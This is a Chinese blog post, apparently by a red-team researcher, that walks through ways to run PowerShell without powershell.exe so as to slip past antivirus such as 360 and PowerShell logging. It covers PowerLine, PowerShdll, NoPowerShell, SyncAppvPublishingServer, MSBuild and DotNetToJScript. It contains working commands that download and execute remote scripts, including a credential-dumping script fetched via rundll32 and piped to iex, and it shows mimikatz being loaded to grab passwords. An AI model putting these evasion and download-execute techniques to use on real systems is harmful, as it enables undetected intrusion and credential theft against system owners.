人生那个东西，也许只是在一段刻骨铭心之后才算是真正的开始，但有时候想想，徒留遗憾罢了。
文章首发合天智汇，博客备份一个
大家好，我是来自鸿鹄实验室的冷逸，今天给大家带来的是，无powershell运行powershell的一些姿势的分享，由于powershell的特性，使得它很受渗透测试爱好者的喜爱，当然也催生了像ASMI之类的防御手段，当然各类杀软也是把它纳入了查杀行列中，比如某套装，只要你调用PS就会查杀，着实恶心。

所以我们在与AV的对抗中也会想法设法的去bypass来执行PS，这里我便总结了几种无powershell执行powershell的姿势，希望能在实战的时候帮到大家。
下面是总结的列表：
- PowerLine
- PowerShdll
- Nopowershell
- SyncAppvPublishingServer
- 调用MSBuild.exe
- 调用cscript
下面的实验如无特殊说明，均在windows server 2008 sp2 + 360最新版下进行
PowerLine
PowerLine是一款由c#编写的工具，支持本地命令行调用和远程调用，可以在不直接调用PowerShell的情况下调用PowerShell脚本，优点如下：
- 自动识别win7、win10系统
- 使用方便,无需复杂的ide
- 自动xor编码
- 等
下载地址：https://github.com/fullmetalcache/PowerLine
我们来看一下它的使用方法：
首先拉取项目到本地，然后运行build.bat文件

然后在UserConf.xml文件中填写你所需要调用的powershell脚本的地址，默认自带powerup、powerview、Mimikatz等，只要按照他给定的格式加入你的ps脚本地址即可

加入完成以后，运行PLBuilder.exe进行构建，构建过程中，360无提示

查看内置的脚本PowerLine.exe -ShowScripts

运行脚本，360无提示

但是在运行之后，360提示了报毒，并删掉了我的exe文件…一般AV只是检测PS发出的恶意请求，但由于在powerline中，请求是由powerline发出的，便绕过了一部分AV，但是缺点也是很明显，就是可扩展性太差，所有的功能依赖于配置文件…
PowerShdll
这个工具主要使用dll去运行powershell而不需要去连接powershell.exe,所以具有一定的bypassAV能力，当然它也可以在这几个程序下运行rundll32.exe, installutil.exe, regsvcs.exe, regasm.exe, regsvr32.exe或者使用作者给出的单独的exe进行执行
下载地址：https://github.com/p3nt4/PowerShdll.git
exe版使用方法：
使用PowerShdll -i进入到交互模式，此时便获得了一个交互式的PS环境，可执行任意的powershell命令，整个过程360无拦截

下载mimikatz抓取密码，360全程无反应…

在交互式模式下唯一要注意的就是，你输入的内容不能过长，否则会出现问题，原因未可知….
我们再来看一下dll版的用法..
1 | rundll32 PowerShdll.dll,main . { iwr -useb https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1 } ^| iex; |
这次没有那么好运了，直接被360杀了

Nopowershell
NoPowerShell是用C＃实现的工具，它支持执行类似PowerShell的命令，同时对任何PowerShell日志记录机制都不可见。同时也提供了CS下的cna脚本。
优点：
- 执行隐秘
- 功能强大
- 扩展简单
- 即使不熟悉PS命令也可以使用cmd命令来代替PS命令，例如(使用ping来代替Test-NetConnection)
下载地址：https://github.com/bitsadmin/nopowershell.git
我们来看一下它的用法：
直接运行便会输出它的版本和支持的命令


过程360无拦截
而dll版被秒杀..

cs下稳定..

这里要注意一点的是，脚本默认调用scripts下的文件，国内的cs大多为script目录，自行修改文件内的目录即可
SyncAppvPublishingServer
SyncAppvPublishingServer是win10自带的服务，有vbs和exe两个版本，我们可以使用他们来做一些类似PS的操作
默认存放在C:\Windows\System32下面

用法实例：
弹计算机：
1 | C:\Windows\System32\SyncAppvPublishingServer.vbs "Break; Start-Process Calc.exe ” |

或者：
1 | C:\Windows\System32\SyncAppvPublishingServer.vbs "Break; iwr http://192.168.1.149:443" |

你也可以去远程下载执行一些ps脚本就像下面这样：
1 | C:\Windows\System32\SyncAppvPublishingServer.exe \" Break; (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1','$env:USERPROFILE/1.ps1'); Start-Process '$env:USERPROFILE/1.ps1' -WindowStyle Minimized;" |
调用MSBuild.exe：
MSBuild是.Net框架中包含的工具，用于自动化创建软件产品的过程，包括编译源代码，打包，测试，部署和创建文档。
Msbuild依赖于.csproj文件，该文件具有XML语法，包含了.NET构建过程中的结果，类似于unix中的make，代码如下：
1 | <Project ToolsVersion="4.0" |
test.ps1的内容如下：
1 | echo "hello from powershell-less" |
效果：

全程360无提示..
github上也有类似的项目：https://github.com/Cn33liz/MSBuildShell.git
执行完之后获得一个交互式的PS

调用cscript：
github上有一个开源的项目https://github.com/tyranid/DotNetToJScript，可以直接生产一个.js的文件，用法是
1 | Dotnettojscript.exe <path_of_assembly> > testps.js |
现在作者给出来编译好的版本，但是里面总是有一些问题总是提示：
1 | Error: loading assembly information. |
所以我们下载下来，进行手动编译..
首先使用vs打开项目，然后切换到TestClass.cs，并注释掉MessageBox这个方法，不然每次运行都会得到一个messageBox

然后，因为需要调用PS，所以我们需要引入”System.Management.Automation.Runspaces”，“ System.Management.Automation“，我们可以在PS下使用下面的命令进行查询该dll的位置，然后手动引入
1 | [psobject].Assembly.Location |
引入之后，并且在TestClass中加入以下方法：
1 | private string LoadScript(string filename) |
编译完得到Dotnettojscript.exe、ExampleAssembly.dll两个文件，然后我们继续将我们的test.ps1文件进行生成一个js文件，
其内容如下：
1 | function setversion() { |
解密后的主要逻辑如下：
1 | var entry_class = 'TestClass'; |
运行结果：

当然你也可以用下面的方法如绕过对JS后缀的检测
1 | cscript //e:jscript testps.txt |
但是360无情的杀死了我们….
写在后面：
本文仅对网上常见的无PS运行PS的手段进行了总结，实验过程大家也可以看的出来，是可以bypass一些AV的，也是各有各的优缺点，最好是针对不同的AV去找出它的拦截规则，然后再进行对于的bypass操作。
参考文章：
https://www.slideshare.net/dafthack/pwning-the-enterprise-with-powershell
https://www.slideshare.net/dafthack/red-team-apocalypse-rvasec-edition
https://pentestn00b.wordpress.com/2017/03/20/simple-bypass-for-powershell-constrained-language-mode/
https://www.youtube.com/watch?v=7tvfb9poTKg&feature=youtu.be